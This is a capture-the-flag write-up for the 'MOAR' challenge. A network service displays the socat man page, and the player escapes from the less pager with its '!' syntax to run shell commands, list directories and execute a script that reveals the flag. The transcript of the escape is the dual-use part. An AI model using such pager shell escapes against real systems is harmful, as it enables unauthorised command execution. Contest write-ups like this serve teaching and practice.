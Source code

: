 # MOAR
PWN

## Description:
> Finding yourself on the Foobanizer9000, a computer built by 9000 foos, this computer is so complicated luckily it serves manual pages through a network service. As the old saying goes, everything you need is in the manual.
> 
> nc moar.ctfcompetition.com 1337

## Solution:

Connecting to the provided server greets us with the man page for `socat`.
```
root@kali:/media/sf_CTFs/google/moar# nc moar.ctfcompetition.com 1337
socat(1)                                                              socat(1)

NAME
       socat - Multipurpose relay (SOcket CAT)

SYNOPSIS
       socat [options] <address> <address>
       socat -V
       socat -h[h[h]] | -?[?[?]]
       filan
       procan

DESCRIPTION
       Socat  is  a  command  line based utility that establishes two bidirec-
       tional byte streams  and  transfers  data  between  them.  Because  the
       streams  can be constructed from a large set of different types of data
       sinks and sources (see address types),  and  because  lots  of  address
       options  may be applied to the streams, socat can be used for many dif-
       ferent purposes.

       Filan is a utility  that  prints  information  about  its  active  file
       descriptors  to  stdout.  It  has been written for debugging socat, but
       might be useful for other purposes too. Use the -h option to find  more
 Manual page socat(1) line 1 (press h for help or q to quit)
```

[`man`](https://linux.die.net/man/1/man) uses [`less`](https://linux.die.net/man/1/less) to display the manual page, and `less` can trigger shell commands using the exclamation mark syntax:
>! shell-command
>
>    Invokes a shell to run the shell-command given. A percent sign (%) in the command is replaced by the name of the current file. A pound sign (#) is replaced by the name of the previously examined file. "!!" repeats the last shell command. "!" with no shell command simply invokes a shell. On Unix systems, the shell is taken from the environment variable SHELL, or defaults to "sh". On MS-DOS and OS/2 systems, the shell is the normal command processor. 

Using this, we can easily access the flag:

```
root@kali:/media/sf_CTFs/google/moar# nc moar.ctfcompetition.com 1337
socat(1)                                                              socat(1)

NAME
       socat - Multipurpose relay (SOcket CAT)

SYNOPSIS
       socat [options] <address> <address>
       socat -V
       socat -h[h[h]] | -?[?[?]]
       filan
       procan

DESCRIPTION
       Socat  is  a  command  line based utility that establishes two bidirec-
       tional byte streams  and  transfers  data  between  them.  Because  the
       streams  can be constructed from a large set of different types of data
       sinks and sources (see address types),  and  because  lots  of  address
       options  may be applied to the streams, socat can be used for many dif-
       ferent purposes.

       Filan is a utility  that  prints  information  about  its  active  file
       descriptors  to  stdout.  It  has been written for debugging socat, but
       might be useful for other purposes too. Use the -h option to find  more
 Manual page socat(1) line 1 (press h for help or q to quit)!ls
!ls
bin   dev  home  lib64  mnt  proc  run   srv  tmp  var
boot  etc  lib   media  opt  root  sbin  sys  usr
!done  (press RETURN)!ls home

!ls home
moar
!done  (press RETURN)!ls /home/moar

!ls /home/moar
disable_dmz.sh
!done  (press RETURN)!/home/moar/disable_dmz.sh

!/home/moar/disable_dmz.sh
Disabling DMZ using password CTF{SOmething-CATastr0phic}
/home/moar/disable_dmz.sh: 18: /home/moar/disable_dmz.sh: cannot create /dev/dmz: Read-only file system
!done  (press RETURN)root@kali:/media/sf_CTFs/google/moar#
```